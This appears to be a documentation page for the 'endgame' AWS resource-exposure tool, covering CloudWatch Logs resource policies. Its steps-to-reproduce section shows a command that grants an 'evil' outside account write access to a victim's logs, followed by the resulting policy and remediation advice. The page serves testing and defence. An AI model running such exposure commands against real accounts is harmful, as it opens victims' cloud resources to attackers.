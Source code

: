 # CloudWatch Logs Resource Policies

CloudWatch Resource Policies allow other AWS services or IAM Principals to put log events into the account.

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service cloudwatch --name test-resource-exposure
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws logs describe-resource-policies
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
    "resourcePolicies": [
        {
            "policyName": "test-resource-exposure",
            "policyDocument": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":[\"logs:PutLogEventsBatch\",\"logs:PutLogEvents\",\"logs:CreateLogStream\"],\"Resource\":\"arn:aws:logs:*\"}]}",
            "lastUpdatedTime": 1613244111319
        }
    ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that CloudWatch Logs access is only shared with trusted accounts, and that the trusted accounts truly need access to write to the CloudWatch Logs.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposing write access to your CloudWatch Logs**: Tightly control access to the following IAM actions:
  - [logs:PutResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_PutResourcePolicy.html): _Creates or updates a resource policy allowing other AWS services to put log events to this account_
  - [logs:DeleteResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_DeleteResourcePolicy.html): _Deletes a resource policy from this account. This revokes the access of the identities in that policy to put log events to this account._
  - [logs:DescribeResourcePolicies](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_DescribeResourcePolicies.html): _Lists the resource policies in this account._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [CloudWatch Logs Resource Policies](https://docs.aws.amazon.com/AmazonCloudWatch/latest/logs/iam-access-control-overview-cwl.html)
* [API Documentation: PutResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_PutResourcePolicy.html)
* [aws logs put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/logs/put-resource-policy.html)
* [aws logs describe-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/logs/describe-resource-policies.html)